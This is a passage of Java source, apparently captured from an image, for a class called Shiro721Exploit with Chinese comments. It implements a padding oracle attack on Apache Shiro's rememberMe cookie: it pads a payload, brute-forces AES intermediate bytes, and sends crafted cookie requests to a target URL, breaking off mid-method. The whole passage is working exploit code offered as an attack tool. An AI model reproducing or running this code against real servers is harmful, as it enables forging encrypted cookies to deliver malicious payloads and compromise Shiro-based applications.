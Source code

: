 ```java
    private int requestCount;

    public Shiro721Exploit(byte[] plainText, int blockSize, String url, String loginRememberMe) throws IOException {
        this.blockSize = blockSize;
        this.plainText = this.paddingData(plainText);
        this.url = url;
        this.loginRememberMe = loginRememberMe;
        this.requestCount = 0;
    }


    // payload填充
    private byte[] paddingData(byte[] data) throws IOException {
        int paddingLength = this.blockSize - (data.length % this.blockSize);

        //计算要填充哪一个字节
        byte paddingByte = (byte) paddingLength;
        byte[] paddingBytes = new byte[paddingLength];
        Arrays.fill(paddingBytes, paddingByte);

        return ArrayUtil.mergerArray(data, paddingBytes);
    }

    private byte[] getBlockEncrypt(byte[] PlainTextBlock, byte[] nextCipherTextBlock) throws Exception {
        byte[] tmpIV = new byte[this.blockSize];
        byte[] encrypt = new byte[this.blockSize];
        Arrays.fill(tmpIV, (byte) 0);

        // 爆破nextCipherTextBlock在AES解密后的middle值
        // rmpIV为当前爆破出的middle值
        for (int index = this.blockSize - 1; index >= 0; index--) {
            /* 分辨填充模式的代码，测试过几次，可以正常使用，但是笔者代码能力有限，放在这里还是仅作参考
            if(index==this.blockSize-1){
                index=identifyType(tmpIV,nextCipherTextBlock)+1;
                continue;
            }
            */
            tmpIV[index] = this.findCharacterEncrypt(index, tmpIV, nextCipherTextBlock);
            logger.debug(String.format("Current string => %s, the %d block", ArrayUtil.bytesToHex(ArrayUtil.mergerArray(tmpIV, nextCipherTextBlock)), this.encryptBlockCount));
        }

        for (int index = 0; index < this.blockSize; index++) {
            encrypt[index] = (byte) (tmpIV[index] ^ PlainTextBlock[index]);
        }
        return encrypt;
    }

    private boolean checkPaddingAttackRequest(String rememberMe) throws IOException {
        CloseableHttpClient httpClient = HttpClients.createDefault();
        HttpGet httpGet = new HttpGet(this.url);
        CloseableHttpResponse response = null;
        boolean success = true;

        httpGet.addHeader("User-Agent", "Mozilla/5.0");
        httpGet.addHeader("Referer", this.url);
        httpGet.addHeader("Cookie", String.format("rememberMe=%s", rememberMe));

        try {
            response = httpClient.execute(httpGet);
            this.requestCount += 1;
```